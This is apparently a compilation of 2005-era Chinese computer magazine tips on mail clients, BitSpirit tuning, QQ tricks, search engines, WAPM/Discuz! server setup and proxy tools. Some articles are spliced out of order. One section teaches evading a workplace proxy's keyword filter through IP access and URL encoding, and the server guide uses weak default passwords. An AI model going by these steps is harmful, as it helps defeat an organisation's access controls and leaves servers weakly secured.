    第三步: 点击“规则描述”中的带有下划线的“指定的”，在弹出的“移动”窗口中选择该上司邮件存放的位置(建议点击右侧的“新建文件夹”建立一个新的文件夹，如本例中新建了一个名为“BOSS”的文件夹)，最后依次点击“确定”完成设置。

    第四步: 此时出现“邮件规则”窗口，刚才的“自动分拣”规则已经出现在规则列表中并被勾选了。如果你已经有大量未阅读邮件需要分拣，可以选中“自动分拣”，点击右侧的“立即应用”按钮，在弹出窗口中再次点击“立即应用”即可对已有邮件进行分拣。

#### 2.Foxmail(版本:5.0.800.0)

- 第一招: 商务信函一键回复
    省时指数: ★★★★★
    面对一大堆有待回复但回复内容却基本千篇一律(或千篇几律)的商务邮件，Foxmail的模板功能可以迅速化解你的“时间危机”。

    小王所在的公司正在推广一个美容产品系列，他负责管理该产品的咨询信箱。小王每天要做的就是从邮件中根据哪些是代理商哪些是普通消费者分别给予不同形式的回复。机械性的复制粘贴动作让小王常常感到头昏脑涨而错误频频，我们来看看他是怎么解决这个问题的。

    第一步: 选择菜单“工具→模板管理”，在弹出的“模板管理”窗口中选中左侧树状目录的“回复邮件模板”分枝。

    第二步: 点击上方工具栏中的“新建”按钮上的小箭头，选择“新建纯文本模板”。在刚才的“回复邮件模板”分枝下就创建好了一个“回复邮件模板1”，将其更名为“普通用户回复”，并在右侧的编辑框中输入回复给普通用户的邮件内容，确认后点击上方工具栏中的“保存”按钮(见图4)。

    第三步: 重复第二步的步骤新建一个“代理商回复”，关闭“模板管理”窗口。

    第四步: 在收到邮件并确认是何种客户类型后，选中该邮件，点击上方工具栏中的“回复”按钮旁的小箭头并选择相应的模板(“普通用户回复”或“代理商回复”)，点击“发送”即可。

小王伸了个懒腰，拿起了手中的咖啡：## 改参数 让比特精灵极速狂飙

比特精灵以其优越的稳定性和强大的功能受到了广大BT爱好者的青睐，可是其在内网中的使用效果却始终不佳，即使在公网中其连接性能比起BitComet也略逊一筹，其实可以通过修改其新版本的设置文件中的隐藏参数来强化其连接能力。

1.  安装比特精灵(即BitSpirit, 以下简称BS)的最新版本2.7.2.215(下载地址:http://www.newhua.com/cfan/200501/bsv2.7.2.215.CN.exe), 旧版本可能无法找到下文中提及的参数。

2.  退出BS, 用“记事本”打开BS安装目录下的user.ini, 查找[DOWNLOADEX], 在其下有三个参数项:NewSOCKETBUMPEX, NewSOCKETLINEEX, NewLaunchDelayEx。官方对于这三个参数的说明如下:

```
(1)NewSOCKETBUMPEX:这个参数表示BS每次尝试发起连接的数目, 默认为12, 这是一个非常低的数值, 主要是为了照顾国内目前比较普遍的网络条件而设的。带宽条件或网络设备质量甚佳的用户可以适当提高这个数值, 数值越高表示发起的连接能力越强, 通常请不要超过80。ADSL路由用户千万不要更改NewSOCKETBUMPEX参数, 否则会引起断流(表现为: 能成功拨号登录, 但上网时数据流传输突然中断, 一段时间后又自动恢复正常, 断流时表现为网页无法打开, 下载中断, 在线收看或收听的视频或音频中断)。
(2)NewSOCKETLINEEX:这个参数表示BS在尝试连接数达到该数值后, “休息”一段时间再继续尝试, 默认为72, 也是一个非常小的数值, 同样也是为了照顾到国内普遍的网络环境而设的。同(1)一样, 数值越大, 表示连接能力越强, 通常请不要超过320。
(3)NewLaunchDelayEx:这个参数表示BS尝试连接的间隔, 单位秒, 默认为4, 这是一个比较合适的值, 如果你提高了(1)和(2)的数值, 请相应加大这个间隔以便降低对网络的压力。
```



第三步:确认你的网络类型为ADSL(非路由)或速度比较快(用老版本BS最高能够到达几百KB/s)的小区宽带用户, 那么请在user.ini中将这三个参数按如下数值设置。

```
NewSOCKETBUMPEX=80
NewSOCKETLINEEX=320
NewLaunchDelayEX=10
```

注意: 更改参数的目的是为了加强连接能力以最大限度地使用物理带宽, 如果本身所使用的网络类型的速度很低, 那也就无法达到提速的目的, 见图1。



(种子很多时也是如此), 请参考2004年第21期《从BT到超级BT》一文。采用路由方式上网应打开相应端口映射;Windows XP SP2/2003要应用BS的“XP SP2连接数破解补丁”。另外, 还需要注意以下两点:

- 有些地方的电信封锁了BT客户端的常用端口(包括BS的默认端口16881)
- 解决方法:选择BS的菜单“选项→个人设置”, 在“任务”选项卡中找到“默认TCP监听的端口”, 将其修改为一个1至65535之间的数字(见图3)。



图3 建议选择大于1024的数字, 否则可能与系统占用端口发生冲突

- ADSL用户上行速度未限制
- 解决方法:由于ADSL上下行速率不一致的特点, 有时过大的上行(即上传)速度会导致下行速度的降低或者发生断流。BS官方推荐ADSL用户将上行速度限制在42KB左右, 大家可以根据自己的实际状况进行设置。选择菜单“选项→个人设置”, 在“任务”选项卡中将“全局上传速度限制”设置为相应的数值。需要注意的是:在运行“设置向导”后, 速度限制会被恢复到默认的设置, 你需要重新作出限制。

（上海 狂PK）

> > 小资料
> 很多ADSL用户的BT下载速度只有0KB或者几KB

## 用 KuGoo 下载整张专辑

- 软件版本:2.019
- 软件大小:2828KB
- 软件性质:免费软件
- 适用平台:Windows 98/NT/2000/XP
- 下载地址:http://www.kugoo.com/download/down.asp

### 1. 安装设置篇

1.  下载并安装KuGoo, 完成后在自动弹出的登录框中点击“注册向导”按钮, 按照文字提示注册自己的新账号, 一路点击“下一步”直到注册完成(见图1)。接着KuGoo自动登录刚才注册的账号, 伴随着一声悦耳的“Hello KuGoo”, 你便来到了KuGoo的世界(见图2)。如果安装完毕后无法运行, 可运行KuGoo安装目录下(默认安装在C:\Program Files\KuGoo2)的AutoDown2.exe自动更新程序, 更新完成后就能正常运行程序了。


2.  首次登录会要求设置一个存放音乐文件最多的文件夹作为“共享文件夹”; 在获取网友音乐的同时也做一点贡献吧(硬盘里没有音乐的朋友也不用担心, 因为即使你的共享文件为0也能正常下载)。

3.  为了让KuGoo更好地为我们工作, 需要稍微改动一些设置。选择菜单“设置→选项”, 在“自定义”选项卡中去除“允许登录十分钟后验证文件列表”的勾选, 避免因共享数多而造成程序延迟。

4.  切换到“传输”选项卡, 去除“文件保存到默认下载路径”的勾选, 并点击“下载路径”右侧的“设置”按钮选择今后下载音乐文件要保存的位置(见图3)。



## 工作原来如此轻松。

## 第二招:让“标记”更加智能

省时指数:★★★★

Foxmail的垃圾邮件过滤功能很强, 对于那些未被过滤的垃圾邮件只要使用“标记”功能就能让程序自动学习, 标记得越多则过滤功能越强。可是每次在使用“标记”后还要再手工将垃圾邮件拖到“垃圾邮件箱”, 实在有些多此一举。

1.  选择菜单“工具→反垃圾邮件设置”, 在弹出的“反垃圾邮件”对话框中选择“常规”选项卡。
2.  勾选“邮件被手工标记为垃圾邮件时”(见图5), 选择下方的“转移到垃圾邮件箱”(也可选择“直接删除”, 但为了防止因误操作而导致的邮件丢失, 建议设置为转移), 点击“确定”关闭对话框。
3.  此时右击收到的垃圾邮件, 在弹出菜单中选择“标记状态为→标记为垃圾邮件”, 该邮件就会自动转移到“垃圾邮件箱”中了。



（河北 陈书营）





### 小提示

- ★在下载或试听过程中可以随时点击“娱乐杂志”、“音乐搜索”、“下载管理”等按钮来切换各项功能，不会对下载或试听产生任何影响。

## 用TM远程演示

想把Office文档或PDF等格式的文件发给位于网络另一端的朋友，如果对方没有安装Office或Adobe Acrobat可能无法打开该文件，怎么办呢？

其实大可不必煞费苦心地一遍遍教你的朋友安装相应程序，仅仅使用新版TM的“远程演示文档”功能就能轻松解决问题。

### TM小档案

- 软件版本:3.0 Build1115
- 软件大小:8.45MB
- 软件性质:免费软件
- 适用平台:Windows 98/NT/2000/XP/2003
- 下载地址:http://im.qq.com/tm/
- 软件备注:经笔者实验确认，“远程演示文档”功能支持的文件类型包括Office文档、PDF、BMP、JPG, TXT及Visual Studio工程文件等。

准备工作:演示的双方都需要安装以上版本的TM，并将当前的聊天模式从QQ切换为TM(在QQ中点击“菜单→一键切换到TM”)。

1.  打开欲进行演示的好友对话框，在“聊天模式”下选择菜单中的“动作→远程演示文档”，向对方发送连接请求(见图1)。





2.  对方在接收到请求后，点击“同意”成功建立连接，此时就会提示你选择要演示的文档(可以选择“文件类型”以打开不同类型的文件)，在选择相应的文件后点击“打开”按钮。

3.  等待一段时间后，在对方的QQ窗口中就开始演示了，譬如演示丰台区教职.doc文件(见图2)。

### 小提示

- ★在群聊窗口中做演示:点击“动作→远程演示文档”，在群成员列表中选择要演示文档的对象即可。
- ★由于远程演示文档功能对带宽的要求较高，所以在网络状况不理想的情况下，可以适当放慢演示速度，以得到最佳的演示效果。

深入思考:为什么在远程计算机上不必安装相应程序也可以浏览该类型文件的内容呢？笔者在使用中发现:每次运行“远程演示文档”时，都会在任务栏出现一个打印机图标，双击该图标后将显示出一个Tencent Virtual Printer的虚拟打印机窗口，原来在使用该功能后TM会通过本地相应的程序打开要演示的文档，然后用专用的虚拟打印机将文件内容“翻译”并通过TM传输，最后在网络另一端通过TM内置的组件对数据进行还原。

## 用QQ远程拯救MM

“扩展名为PDF的文件怎么打开呀?” “怎么我的电脑老重启呀?”

## 我的昵称要抢夺你的眼球

注意：本文中需要用到的特殊字符可从 http://www.newhua.com/cfan/200501/char.rar 下载，解压后的多个文件对应本文中提到的各个特殊字符文件。文中的步骤在 QQ2004II Beta2 及 MSN Messenger 6.2 中测试通过。

### 第一招: 把表情嵌入昵称

炫目度: ★★★★
(1) QQ
软件要求: QQ2004 正式版或以上。
第一步: 登录 QQ，在与任意好友的聊天对话框中打开表情框，然后将鼠标指针悬停在需要的表情上，就会显示出该表情的转义符代码（如玫瑰花图标的转义符代码为 “/mg”）。
第二步: 点击 QQ 面板上的“菜单”按钮，在弹出菜单中选择“个人设置”。
第三步: 在弹出的设置对话框左侧选择“个人资料”标签，在右侧“用户昵称”中加入刚才看到的转义符代码。比如原来的昵称叫“狂pk”，想加入玫瑰的表情，则只要将昵称修改为 “狂pk/mg” 即可。
除了上述方法外，QQ 还支持另外一种嵌入昵称的代码，此方法详细代码对照表请参考 zy.txt（格式：第一行为表情说明，下一行为此表情的代码，即需要复制的部分，再下一行则是第二个表情的说明，依此类推）。

(2) MSN Messenger
MSN Messenger 的昵称中也可以加入表情符号，表情符号对应的代码可以在聊天窗口的图释按钮中进行查询（譬如眨眼笑脸图标的代码为 “;)”）。然后选择 MSN Messenger 的菜单“工具→选项”，进入“个人信息”选项卡，在“我的显示名称”中插入代码即可，如。

### 第二招: 让昵称隐身

炫目度: ★★★★★
(1) QQ
如果你的朋友收到没有昵称的消息，肯定会大跌眼镜，其实在 QQ 中很容易就能实现这种效果。
第一步: 打开 hide.txt，该文件包含了一个换行符，按 Ctrl + A 全选，再按 Ctrl + C 复制。



第二步: 在 QQ 个人设置中将此换行符用 Ctrl + V 粘贴在原先昵称的前面，你的昵称就“隐身”了（见图1）。

> > 小提示
利用换行符还可以将聊天时间隐去，只要在昵称后面加入换行符即可。

(2) MSN Messenger
第一步: 选择 MSN Messenger 的菜单“工具→选项”，在“个人信息”选项卡中将“我的显示名称”中的内容删除。但简单的删除并不能真正达到“隐身”的目的，而会取而代之地显示完整的邮箱地址。
第二步: 将光标定位在“我的显示名称”输入框中，按住 Alt 键，然后通过小键盘依次输入数字 “0160”（不含引号），完成后按“确定”保存即可（见图2）。



### 第三招: MSN Messenger 昵称倒置

炫目度: ★★★★★
在 MSN Messenger 中还能让昵称倒过来，而且只要输入一个特殊字符就可以实现。打开 back.txt，按照上文的方式复制页面中的特殊符号，将“我的显示名称”清空后粘贴此符号，再输入昵称，你就会发现昵称已经倒置过来了。昵称在你的好友列表中也是倒置显示的（包括后面的“联机”状态也变成了“机联”），如本例中的“雪，一直在下”显示为“下在直一，雪”。

### 第四招: MSN Messenger 多行昵称

炫目度: ★★★★
想不想你的 MSN Messenger 昵称跟名片一样？使用 MSN Messenger Plus 中的改名命令 “/nick”，就可以将 MSN Messenger 昵称设置为多行了。
第一步: 从 http://sq.onlinedown.net:81/down/MsgPlus-325.exe 下载 MSN Plus 并安装。
第二步: 安装完毕后登录 MSN Messenger，打开任意好友的聊天对话框，输入 “/nick ***”（不含引号，*** 代表你的昵称，按 Ctrl + Enter 组合键可进行换行），输入完毕后按回车键，就拥有多行昵称了（见图3）。



### 第五招: QQ 单行显示昵称和文字

炫目度: ★★★★★
有时会看到一些 QQ 网友发来的文字和昵称显示在一行上，其实这也是利用了特殊符号。打开 perline.txt，按照上文的方式复制页面中的特殊符号，在 QQ 的“个人设置→个人资料”中把此特殊符号粘贴至“用户昵称”的尾部，保存设置即可。
以上简单介绍了几个常用的修改方法，如果把这些方式综合起来使用，就会有更“炫”的效果了。

(山东 网络 E 生)

## 触摸代理服务器的 “敏感区”

在单位上网，总会受到各种限制。就拿我们单位来说吧，采用亿特代理服务器软件架设了一个 HTTP 代理，当我们在访问一些域名中含有“QQ”、“Chat”、“Game”等关键字的网站时，就会发现代理服务器的“无形黑手”已经把你的访问给扼杀了（见图1）。既然找到了症结所在，我们当然就要开始寻求破解的方法。



### 1. 用 IP 访问方式突破代理屏蔽

由于代理服务器只限制了敏感词的访问，而并没有封锁所有域名中含有关键字的网站的 IP。所以只需输入该网站的 IP，就能轻松绕过代理服务器的“敏感区”。正常情况下使用 Ping 就能获取域名的真实 IP，可是由于现在采用的是 HTTP 代理登录的方式，所以得另谋他法了。
第一步: 用 IE 打开 http://www.123cha.com，在页面中“请输入查询域名或 IP”右侧的文本框中输入“www.qq.com”（不含引号）点击“查询”即可获取 QQ 网站的 IP。
第二步: 在 IE 的地址栏中填入刚才页面中获取的 IP 访问试试，熟悉的 QQ 首页又回来了。

小提示
多次查询 QQ 网站的 IP 可能会发现其 IP 并不唯一，很多大网站都采用了多服务器集群技术，所以可能存在数个 IP。

### 2. 用 URL 编码方式突破代理屏蔽

可别高兴得太早，如果关键字在网站 URL 中的目录名中出现，如 http://www.myadasoft.com/linkgame/，那该怎么办？我们可以用 URL 编码的方式来对网址进行一次小小的“包装”。

> > 你知道吗
> 什么是 URL 编码?
> URL 编码是一种浏览器用来打包表单输入的格式。浏览器从表单中获取用户提交的变量值，将它们以“变量名=变量值”的方式插入 URL 中发送给服务器。% 后的数字即为该字符的十六进制 ASCII 码。
> 第一步: 我们以刚才的链接为例，“http://www.myadasoft.com/linkgame/” 中的 “game” 关键词会被代理服务器禁止，而如果将 “game” 转换为 URL 编码就可以逃过代理服务器的“法眼”。首先查阅下表找到该词对应的 URL 编码。
> 第二步: 根据上表，“game” 可以转换为 “%67%61%6d%65”（不含引号）。用这个经过 URL 编码后的字符串替换原地址中的 “game”，即 http://www.myadasoft.com/link%67%61%6d%65/，就能畅通无阻地访问被屏蔽的网站了。

小提示
当遇到网址中含有中文关键词时就无法用上表转换，此时可以用 Baidu 搜索该词，接着在 IE 地址栏中 “wd=” 和 “&cl=3” 之间就能找到该词的 URL 编码（见图2）。



(综合十三狼)

## 脚踩多条船 做个搜索花心鱼

菜鸟在网络中左顾右盼，不知该去哪儿。老鸟学会了使用搜索引擎，从下载MP3到下载PDF文件，清一色地用Google，不过查找资料方便多了。而高手们在干什么呢？原来高手们利用多种搜索引擎来处理不同需求的搜索。

### 我要搜电子书

都说互联网是一个学习大课堂，当你正在为所需要的书本资料久觅不得而发愁时，为什么不搜一下呢？

#### 1. EBOOK 电子图书搜索引擎

网址: http://book.hicpcn.com/search/ 作为中国最大的电子书搜索引擎，其可搜索的图书数量达到数万本，书目类型大体分为三类：综合类、科教类、小说类。当你要寻觅某本小说或工具书时，不妨用它搜一下。

优点: 可采用“书名”和“作者”两种搜索方式，支持模糊搜索。缺点: 可搜索的图书数量仍需增加。速度: ★★★

实战1: 我要搜索《The Boy Captives(被俘的男孩)》，但记不全书名，只依稀记得“男孩”和“BOY”。可以利用EBOOK引擎的模糊搜索功能，在搜索框中输入“男孩 BOY”进行搜索，然后在结果页中稍加筛选即可。实战2: 想找卫斯理系列里的一本，可是怎么也想不起来书名叫什么了。在搜索框中输入作者的名字“倪匡”，“搜索方式”选择“作者”然后进行搜索，这样就能找到倪匡先生写的卫斯理全集了，这时看到书名应该有印象了吧。

#### 2. Google 打印服务

网址: http://print.google.com 国外的经典文学名著，只有读英文原版才能体味出最原汁原味的文学意境。可是要在网上找原版电子书还真挺难，Google最近推出了“打印”服务，当你在其网站上搜索文学名著的书名时，就会自动调用其“打印”搜索引擎来为你找到相应的电子版图书供在线阅读。

优点: 搜索到的图书页码完整，且格式统一。缺点: 目前只支持英文原版。速度: ★★★★

实战: 利用Google打印服务寻找《Romeo and Juliet(罗密欧与朱丽叶)》的电子书。第一步: 在IE中打开http://www.google.com，如果你的默认Google首页是中文的，可以点击页面中的“Google.com in English”链接进入英文版本的Google。第二步: 搜索想要找的原版书的书名，如“Romeo and Juliet”(不含引号)。在搜索结果页面的起始位置就能看到Google打印服务提供的电子书链接了(见图1)。



#### 3. Google 指定文件类型搜索

网址: http://www.google.com Google搜索想必大家都用过，可是它的高级搜索功能使用的人却不多。比如网上下载的电子书的格式大多为PDF，搜索时可以在搜索框中输入书名和“filetype:pdf”(如要搜索《Thinking in C++》这本书的PDF电子书，那么可以在Google中搜索“thinking in c++ filetype:pdf”)，这样搜索结果会更加精确，而且可以直接找到该电子书的下载地址(见图2)。

小提示 Baidu(百度)也支持文件类型搜索方式，格式与Google完全相同。

优点: 搜索准确性高，利用搜索结果可直接下载。缺点: 搜索方式单一，不能以作者等方式指定搜索范围。速度: ★★★★



### 我要搜音乐

诚然，KuGoo等音乐共享软件已经被越来越多的音乐爱好者所使用，可是传统的音乐搜索仍然有其忠实FANS。无须安装，无须设定共享目录，只需打开音乐搜索引擎页面，想要的音乐就能“搜之即来”。

#### 1. “一搜” MP3 搜索

网址: http://music.yisou.com “一搜”的音乐搜索虽然出道不久，但使用者却不断增加，最大的原因就是其独到的歌曲试听功能(见图3)，简直可以媲美一个大型DJ站。



优点: 歌曲试听支持歌词滚动。歌词、试听、点播、手机铃声形成一条完整的搜索链。缺点: 对多关键字的搜索尚需改进。速度: ★★★★

实战: 我想下载《我真的受伤了》这首歌所在的整张专辑的歌曲。搜索“我真的受伤了”，在结果列表页中查看歌曲的“所属专辑”为《热》，点击专辑系列中的“热”，就会进入这张专辑的所有歌曲的下载页面了。

#### 2. “百度” MP3 搜索

网址: http://mp3.baidu.com 百度音乐搜索想必大家都不会陌生，在多关键字的搜索中特别能体现出这个引擎的优势，无论你是搜索“我真的受伤了 张学友”还是搜索“张学友 我真的受伤了”，都能达到预期的目的。

优点: 支持歌词、试听、点播手机铃的完整搜索链。多关键字搜索能力强。缺点: 不支持歌词滚动。速度: ★★★★

#### 3. SoGua 全球娱乐门户引擎

网址: http://www.sogua.com SoGua和其他引擎的区别之处在于可以很方便地利用它的“专辑搜索”功能来下载整张专辑的曲目。优点: 搜索方式多样化。缺点: 速度过慢。速度: ★★

### 我要搜图片

在论坛上打了半天字也发不了几帖，还被版主定罪为“灌水”。可要是发图片，就显得非常有说服力了，一张美图再老，也能使看帖者心旷神怡、心悦诚服……(版主：“这，这不算灌水。”)

#### 1. “百度” 图片搜索

网址: http://image.baidu.com 在同类图片搜索引擎中，百度算得上是数一数二的。

优点: 支持搜索结果图片的缩略图预览，支持两种图片搜索方式及多种图片格式的限定，可以满足配图及新闻组稿的不同需要。缺点: 图片分类搜索方式仍有改进余地。速度: ★★★★

#### 2. Google 图片搜索

网址: http://images.google.com 能搜索到的图片最多，但对图片链接失效检查不到位，经常导致只能看到预览的缩略图却无法点击打开完整图片。如果你只是搜索一些小图片的话，这将是你的最佳选择。

优点: 搜索范围广。缺点: 图片有效性检查不够。速度: ★★★

### 我要搜 FTP 下载

在宽带广泛进入家庭后，光驱销路明显下滑了不少，因为大家都从网上下载，谁还用光驱啊？可是要在网上找到个合适的下载链接，还真不容易。

#### 天网搜索

网址: http://e.pku.edu.cn/ 寻找那些非常难找的软件下载时，常常是刚在Google中满心欢喜地搜索到，点进去却发现链接早已经失效了(周星星：“世界上最痛苦的事莫过于此……”)。用天网搜索时，你可以在搜索框中输入软件名称，点击“搜索文件”就能找到许多此软件的FTP下载地址。

优点: 独创的FTP搜索及优秀的链接有效性验证。缺点: 搜索结果的重复性过滤尚需改进。速度: ★★★★

实战: 使用“天网搜索”时，可以搜索要寻找的文件的完整或部分文件名(软件的文件名可以从无效下载链接获得)，这样比直接搜索软件的名称得到的结果更准确。

### 我要搜 P2P 资源

BT，eMule等P2P资源共享软件已经成为宽带上网的必备工具。可能你要找的并不是一个热门的电影或是软件，那么就应该尽量在大的种子发布网站中搜索，成功机率比较大。

#### 1. BTChina

网址: http://bt.btchina.net BTChina是中国最大的BT发布索引联盟，几乎国内所有BT发布网站的种子在这儿都能搜索到。

优点: 搜索范围广，镜像服务器多。可以查看种子连接数量以选择最快的下载资源。缺点: 高峰时段访问不稳定。速度: ★★★

实战: 我已经搜索到了BT资源，可是点击链接却无法下载种子。BTChina的服务器不太稳定，有时会出现这种无法正常下载种子的情况，可以在搜索到的结果中点击页面右侧的“其他下载点”中的链接(D2/D3/D4即为2、3、4号镜像服务器下载点)。

#### 2. VeryCD

网址: http://www.verycd.com/ eMule(在国内又称“电骡”)作为除BT外另一个超人气P2P共享软件，在国内也有着为数众多的使用者。VeryCD上可以搜到许多用BT下载不到的好东西。

优点: 搜索范围广，资源丰富。缺点: 和BTChina一样，高峰时段的访问不尽如人意。速度: ★★★☆

（熊猫盼盼）

## 五分钟搭建Web服务器和论坛

或许你急于向MM证明自己是电脑高手，又或许你已经受够了免费主页空间那低劣的服务质量。面对一个五分钟搭建自己的Web服务器的机会，你还会选择那些小的可怜且功能严重匮乏的免费空间吗？聪明的你当然会选择前者。可是安装和配置Apache服务器是件非常麻烦的事，满是字符的配置文件可能会让你为了一个选项而弄得焦头烂额，怎么可能只用五分钟呢？

你知道吗
WAPM是什么？
WAPM就是Windows + Apache + Tomcat + PHP + MySQL服务器平台的英文缩写。它是国人自己编写的一个将多种服务器平台集成在一起的服务器平台软件套装。

## 架设服务器

- WAPM小档案
软件版本: 1.0R2
软件大小: 63MB
软件性质: 免费软件
运行平台: Windows 2000/NT/XP/2003
下载地址: http://www.yi.org/ftp/WAPM/WAPM.Setup.rar

- 第一步: 确保在安装WAPM前，系统没有安装过Apache, Tomcat, MySQL，并且相关端口没有被其他软件占用(WAPM使用的端口为: 80, 443, 3306, 8088)。否则请先备份数据，然后卸载这些软件或更改端口，如果曾经安装过IIS必须先将其卸载，否则会产生冲突。

> ★如果在你的C盘根目录下有my.cnf文件，请改名或删除，否则MySQL会无法启动。同时备份系统目录之内的my.ini文件。

- 第二步: 下载WAPM安装包，并将文件解压到某一个分区的根目录，本文以D:\usr为例。

- 第三步: 双击运行解压目录中的Service-Install.bat，出现字符安装画面，按任意键继续。如果你使用的是Windows XP SP2，安装时可能会出现如图1所示对话框，点击“解除阻止”按钮。



- 第四步: 安装脚本提示所有服务器安装成功(出现“发生系统错误1060”是正常的，是因为安装程序检测到系统之前未安装MySQL)。通过“开始→运行”，输入“services.msc”并回车打开“服务”窗口，在服务列表中查找如图2所示的三个服务，如果没有找到，请回到第三步重新安装一次。



- 第五步: 服务已经安装完毕，此时执行usr目录中的start.bat，系统将会立刻启动所有服务器(如果MySQL服务启动失败，请用“记事本”打开D:\usr\local\mysql4下的my.ini并检查其中的路径是否为服务器的安装路径，然后手动执行D:\usr\local\mysql4\bin\winmysqladmin.exe)。

> ★如果在安装过程中遭遇失败，可以运行Service-UnInstall.bat卸载所有已安装软件，然后从第三步开始重新进行安装。

- 第六步: 管理及配置页面(在IE中输入网址即可进行管理):
1. 数据库管理: http://127.0.0.1/phpMyAdmin
用户名: root 密码: 123456
2. Tomcat管理: http://127.0.0.1:8088
用户名: tomcat 密码: 123456
3. 系统信息查看: http://127.0.0.1/

### 小试牛刀——安装论坛

很多读者都希望拥有自己的论坛，现在已经架设了自己的Web服务器，我们就能够轻松地实现这个梦想了！本文将以国内最流行的Discuz!论坛系统(2.2 Free版本)为例介绍论坛的安装。

- 第一步: 首先从http://download.discuz.net/2.2/gb2312.zip下载Discuz! 2.2F论坛系统，解压至本地硬盘任意目录中。将解压目录中的Discuz!目录重命名为bbs，并移动到D:\usr\local\www\data目录下。

- 第二步: 进入http://127.0.0.1/phpMyAdmin，登录之后即进入PHPMyAdmin(密码见上文)，在“创建一个新的数据库”处任意填写一个数据库名称后点击“创建”(见图3、4)。



- 第三步: 用IE打开http://localhost/bbs/install.php，开始安装论坛。点击“我完全同意”，进入安装向导页。将“数据库用户名”改为“root”，数据库密码改为“123456”，数据库名改为刚才创建的“bbs”(均不含引号，见图5)，其他均采用默认设置即可，确认填写无误后点击“保存配置信息”。

- 第四步: 页面中显示了当前服务器配置与Discuz!所需配置的比较图，如果没有出现红色的警示语，即表示符合安装要求(见图6)。在页面下方的“设置管理员账号”中填写“管理员用户名”、“管理员Email”和“管理员密码”(即今后你用来登录论坛并进行后台管理的账号)，点击“开始安装Discuz!”。





- 第五步: 如果页面中都显示“成功”，那就表示论坛已经安装成功了。在IE中打开http://localhost/bbs，你已经俨然成为了一个建站高手，独立完成了一个Web服务器的架设并安装了一个论坛。

- 第六步: 将你的IP地址告诉你的好友，或者使用“花生壳”动态域名系统(“花生壳”的使用方法可以参考本刊2004年11期的《圆你DJ梦想 轻松架设网上交通台》或者其他官方网站上的说明: http://www.oray.net)。你的论坛的访问地址为: http://你的IP地址/bbs。

> ★想知道如何得到本机IP地址，可以参阅本期《IP知识补习班》。

## 疑难解决

> Q: 为什么我已经成功架设了WAPM，朋友却无法访问呢？
A: 可能你没有公网IP地址，或者所使用的防火墙禁用了外部对于80端口的访问。如果是防火墙的问题，可以在防火墙规则中设定允许对80端口的TCP连接。

> Q: 我怎么修改首页？
A: 直接在D:\usr\local\www\data(以本文的安装路径为例)下用新的首页覆盖原index.htm即可。

(DIYChen 熊猫盼盼)

## 不是会员也玩QQ群

“物以类聚，Q以群分”，QQ的点对点聊天方式正在悄然发生改变，大家现在更乐意在QQ群中热热闹闹地聊上一把。而在默认状态下，非会员的QQ号并不能建立群，迫切想成为“群主”的网友们不得不每月交银子申请QQ会员。其实非会员也一样能够玩转QQ群！

* 本文中关于QQ群的操作均在QQ2004II Beta3中测试通过，如果你无法实现其中某些操作，建议升级至此版本。

### A.当你的在线时长超过1520小时(QQ等级16):

首先切换到QQ的“群/校友录”面板，右击空白处，在弹出菜单中选择“创建一个群”，然后根据向导的提示填写要申请的群组的类型、名称、简介等资料。一路“下一步”直到向导进行到“请为您的群组设定成员”时，在右侧的好友列表中勾选要添加至群中的好友即可(勾选好友分组可将该组中的所有好友选中)。接着继续点击“下一步”，完成群的创建。

### B.当你的在线时长不满1520小时:

- 第一步: 用IE打开http://school.qq.com，在页面左侧的“登录校友录”框中输入自己的QQ账号及密码后登录。点击页面左侧的“个人名片”链接，填写好各项个人资料后提交。

- 第二步: 点击页面左上角的“QQ校友录”图片回到校友录首页，在页面中的“搜学校”部分中随意选择“所在地区”和“学校类别”(如“北京”和“大学&大专”)，“关键字”处留空即可，点击下方的“搜索”。

- 第三步: 页面转入“搜索结果”，在页面中的“学校列表”处随意选取一个点击进入(如“清华大学”)。

- 第四步: 进入学校页面，页面中间的是“班级列表”，在班级列表的下方找到“创建新班级”，填写好“班级名称”(如“CFAN”)点击右侧的“注册”，提示创建成功(如果此号码已经创建过一个群的话会提示“创建失败”)。

- 第五步: 此时在QQ上会收到一条系统消息提示已加入该群(见图)，在群“群/校友录”面板中就能找到刚才创建的群了。



> ★非会员QQ号码只能用以上方法创建一个群。
★QQ高级群支持4个管理员并拥有更大的共享、相册空间，免费的升级方法可参考本刊今年第一期中的《免费得QQ高级群》。

(LVD)

## 突破教育网 舒舒服服用代理

教育网内学习资源丰富，网内下载也很快。可一旦要访问一些国外网站时，如用Google搜索资料、升级病毒库、给系统在线安装补丁时，麻烦就来了。教育网访问国外网站需要支付较高额的费用，大多数用户都会选择使用代理服务器的方式。但问题并没有完全解决，因为使用代理有以下几个缺点：
(1)设置过程繁琐：在网上找到的代理，要通过频繁的复制粘贴操作一条条加以验证，设置不方便。
(2)代理易失效：在一堆代理里好不容易“挖”出几个能用的，到了第二天却发现代理已经失效了。
(3)不易找到速度最快的代理：用手工验证和主观感觉来测试代理的速度实在太不科学，工作量也太大。
所以，有必要借助一些代理辅助工具来帮助我们舒舒服服地使用代理。

## 我要找代理

- 软件名称：代理超人小档案
- 软件版本：1.1
- 软件大小：648KB
- 软件性质：免费软件
- 运行平台：Windows 2000/NT/XP/2003
- 下载地址：http://www.newhua.com/cfan/200502/proxysm.rar
- 软件备注：该软件为绿色软件，下载解压后直接运行其中的proxysm.exe即可启动“代理超人”。

寻找代理本身就是件麻烦事，然而用这个小工具却可以“化腐朽为神奇”，使寻找代理的过程变得轻松有趣。

- 第一步：启动“代理超人”，选择菜单“搜索→搜索代理”。软件即开始搜索代理服务器，下方状态栏中会显示当前搜索的进度，中间的列表部分显示搜索到的代理服务器地址及端口（见图）。



- 第二步：为了防止搜索到的代理服务器失效，我们还要对其加以验证。选择菜单“搜索→验证代理”。此时软件将对刚才搜索到的代理服务器进行验证。

- 第三步：由于我们要找的是国内的代理，所以在国家一栏中找到显示为“中国”的服务器地址（“验证状态”必须为“验证完成”，“匿名程度”必须为“普通匿名”或“透明代理”）。

> 小提示
选择菜单“高级→系统设置”，在“整理选项”标签中将“保留国家及地区的代理”设置为“中国”，然后在“验证选项”中勾选“验证代理所在地区”就可以在验证过程中过滤掉其他国家的代理服务器，从而缩小结果范围。

## 我要设置代理

一般情况下找到一个代理服务器地址都需要在IE的选项中进行设置，然后还必须重启IE才能使代理生效，用“代理超人”则可以使这个过程大大简化。

- 第一步：（假设你已经按照上文中的步骤对代理进行了搜索和验证。如果需要手动加入代理地址，可以选择菜单“管理→新增代理”然后在弹出窗口中进行设置）在“代理超人”的代理列表中选中所需设置的代理。

